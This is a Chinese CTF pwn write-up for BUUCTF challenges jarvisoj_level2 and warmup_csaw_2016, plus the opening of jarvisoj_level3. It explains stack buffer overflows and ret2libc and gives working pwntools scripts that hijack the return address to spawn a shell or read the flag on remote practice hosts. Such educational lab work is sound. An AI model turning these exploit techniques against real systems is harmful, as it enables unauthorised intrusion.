# pwn

## jarvisoj_level2
>做题人：郑林均
>url链接：https://buuoj.cn/challenges#jarvisoj_level2

下载文件后放linux用checksec一下

![alt text](图片/图片/image.png)

发现32位的，放进IDA看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```
很容易发现有溢出点buf，read可以读进0x100，而buf只有0x88，再shift加f12，发现bin/sh
![alt text](图片/image-1.png)
PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag

##  warmup_csaw_2016
>做题人：郑林均
>url链接：[buuctf](https://buuoj.cn/challenges#warmup_csaw_2016)
先放进linux用checkse一下

![alt text](图片/image-2.png)

发现是64位并且什么保护都没开，再放进IDA看看
查看主函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets((__int64)v5);
}
```
发现溢出点，用了gets函数，输入没有限制
然后找获得权限的函数
用shift+f12查看
![alt text](图片/image-3.png)
发现有cat flag.txt
就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

## jarvisoj_level3

>做题人：郑林均
>url链接：[jarvisoj_level3
1](https://buuoj.cn/challenges#jarvisoj_level3)

先放入linux用checksec一下，发现是32位的，开启了NX保护，然后放进IDA看看，很容易发现溢出点
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);                  // //溢出点
                                                
}
```





